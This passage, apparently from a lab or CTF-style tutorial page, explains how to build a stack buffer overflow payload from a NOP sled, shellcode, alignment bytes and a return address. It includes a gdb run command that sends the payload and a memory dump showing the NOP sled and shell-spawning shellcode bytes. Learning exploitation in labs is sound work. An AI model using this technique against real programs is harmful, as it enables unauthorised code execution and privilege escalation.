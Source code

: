 The NOP sled can be any size, but bear in mind it shares the same "offset" space with the Shellcode and Alignment, so combined these cannot add up to _more_ than the offset size.

### Shellcode

A few ways to generate shellcode

1. msfvenom
2. [/bin/cat](https://masterccc.github.io/tools/shellcode_gen/)
3. [pwntools](https://docs.pwntools.com/en/stable/)

### Alignment

The alignment bytes just make up the difference between the shellcode and the end of the offset.

### Return Address

The size of this is determined by what we say in the "finding the offset", where the EIP gets filled up with `A`'s until we see something like this for the crashed return address in gdb: `0x0000414141414141`, telling us the return address size is `6 bytes`.

> But what address are we writing in here?

Now that we know our `NOP Sled` is going to be at the start of our payload/buffer, we want the address where our `NOP`'s can be found.

For example, if we've got most of our payload determined:

```sh
(gdb) run $(python -c "print $nop_sled + $shellcode + $alignment + $return_address")
```

We send this off and can see the return address being overwritten...

```sh
Program received signal SIGSEGV, Segmentation fault.
0x0000414141414141 in ?? ()
```

Staying inside `gdb`, dump the memory and look for our `NOP`'s i.e. `0x90909090`'s.

```sh
(gdb) x/100x $rsp-200
0x7fffffffe8c8: 0x004005a9      0x00000000      0xf7ffa268      0x00007fff
0x7fffffffe8d8: 0xffffecea      0x00007fff      0x67676f64      0x9090906f
0x7fffffffe8e8: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe8f8: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe908: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe918: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe928: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe938: 0x90909090      0x90909090      0x90909090      0xff319090
0x7fffffffe948: 0x03eabf66      0x4858716a      0x050ffe89      0x48583b6a
0x7fffffffe958: 0xb849d231      0x69622f2f      0x68732f6e      0x08e8c149
0x7fffffffe968: 0x89485041      0x485752e7      0x050fe689      0x48583c6a
0x7fffffffe978: 0x050fff31      0x42424242      0x42424242      0x42424242
0x7fffffffe988: 0x41414141      0x00004141      0xffffea88      0x00007fff
0x7fffffffe998: 0x00000000      0x00000002      0x004005e0      0x00000000
0x7fffffffe9a8: 0xf7a4302a      0x00007fff      0x00000000      0x00000000
0x7fffffffe9b8: 0xffffea88      0x00007fff      0x00040000      0x00000002
0x7fffffffe9c8: 0x004005ac      0x00000000      0x00000000      0x00000000
0x7fffffffe9d8: 0x794daa23      0x97320a39      0x00400450      0x00000000
0x7fffffffe9e8: 0xffffea80      0x00007fff      0x00000000      0x00000000
0x7fffffffe9f8: 0x00000000      0x00000000      0xa1edaa23      0x68cdf546
0x7fffffffea08: 0x2d49aa23      0x68cde5f1      0x00000000      0x00000000
0x7fffffffea18: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffea28: 0xffffeaa0      0x00007fff      0xf7ffe130      0x00007fff
0x7fffffffea38: 0xf7de7656      0x00007fff      0x00000000      0x00000000
0x7fffffffea48: 0x00000000      0x00000000      0x00000000      0x00000000
```
